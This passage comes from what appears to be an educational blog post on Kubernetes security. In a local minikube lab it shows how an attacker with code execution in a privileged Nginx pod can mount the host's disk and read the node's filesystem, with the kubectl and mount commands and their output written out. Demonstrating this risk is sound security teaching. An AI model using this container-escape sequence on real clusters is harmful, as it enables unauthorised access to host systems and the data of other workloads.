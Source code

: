kubectl expose deployment todolist-deployment --type=NodePort --name=todolist-service
Let’s check the new service:

❯ kubectl get service todolist-service NAME               TYPE       CLUSTER-IP       EXTERNAL-IP   PORT(S)          AGE todolist-service   NodePort   10.104.206.207   <none>        8000:30453/TCP    9h
 
As for the last part of the preparations, let’s open our TODO list application and add a new “secret” TODO with the very real number of my credit card:

TODO screenshot showing add a "secret" TODO with credit card number
So that’s it, right?

Our secured application is isolated from the other problematic pod, and there is no chance for data leakage.

TODO no data leaked
 Of course NOT! 🙂 Now let’s see why…

Hack the unsecured app
We want to understand what an attacker can do. For that purpose, I’m going to assume that there is a RCE vulnerability on our Nginx server and the attacker already used it to run on the pod:

❯ kubectl get pod
NAME                                   READY   STATUS    RESTARTS   AGE
nginx-deployment-7f8d65c474-9dvbq      1/1     Running   1          44h
todolist-deployment-74c7c78f9c-ltt58   1/1     Running   0          40m
❯ kubectl exec -it nginx-deployment-7f8d65c474-9dvbq bash
root@nginx-deployment-7f8d65c474-9dvbq:/#
As the pod is privileged, we can start by mounting the host’s file system on the pod. We can get the name of the file system (which might be different between operating systems) by using the `df` command on the minikube node:

❯ minikube ssh
                         _             _           
            _         _ ( )           ( )          
  ___ ___  (_)  ___  (_)| |/')  _   _ | |_      __ 
/' _ ` _ `\| |/' _ `\| || , <  ( ) ( )| '_`\  /'__`\
| ( ) ( ) || || ( ) || || |\`\ | (_) || |_) )(  ___/
(_) (_) (_)(_)(_) (_)(_)(_) (_)`\___/'(_,__/'`\____)

$ df
Filesystem     1K-blocks    Used Available Use% Mounted on
tmpfs            3288744  503900   2784844  16% /
devtmpfs         1741936       0   1741936   0% /dev
...
/dev/vda1       16954224 3689916  12271440  24% /mnt/vda1 $ ls /mnt/vda1 data  hostpath-provisioner  hostpath_pv  lost+found  var
We can use this path to run the `mount` command inside the pod:

root@nginx-deployment-7f8d65c474-9dvbq:/# mkdir /tmp/host-fs   
root@nginx-deployment-7f8d65c474-9dvbq:/# mount /dev/vda1 /tmp/host-fs/
root@nginx-deployment-7f8d65c474-9dvbq:/# ls /tmp/host-fs
data  hostpath-provisioner  hostpath_pv  lost+found  var
As you can see, we managed to run `ls` command and get the same results as we had when running on the node. In other words, we can access the host’s file system from the pod!

